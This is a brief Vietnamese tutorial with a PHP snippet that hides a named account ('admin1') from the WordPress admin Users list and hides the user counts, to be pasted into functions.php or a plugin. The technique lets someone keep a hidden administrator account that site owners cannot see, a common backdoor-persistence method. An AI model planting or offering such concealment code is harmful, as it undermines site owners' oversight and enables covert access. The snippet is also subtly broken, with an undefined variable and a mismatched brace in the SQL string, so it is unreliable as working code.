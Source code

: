 
#Hướng dẫn ẩn thành viên trong trang Admin của Wordpress
- Trước tiên, tạo user muốn ẩn ( Ví dụ user mình tạo là admin1, thì điền vào code dưới là admin ). Sau đó copy đoạn code dưới vào bất kỳ chỗ nào trong wordpress (function.php, *plugins,...).

add_action('pre_user_query','yoursite_pre_user_query');
function yoursite_pre_user_query($user_search) {
global $current_user;
if ($username == 'admin1') {
}
else{
global $wpdb;
$user_search->query_where = str_replace('WHERE 1=1',
 "WHERE 1=1 AND {$wpdb->users).user_login != 'admin1' ",$user_search->query_where);
}
}

function hide_useR_count(){
?>
<style>
.wp-admin.users-php span.count {display:none;}
</style>
<?php
}
add_action('admin_head','hide_user_count');
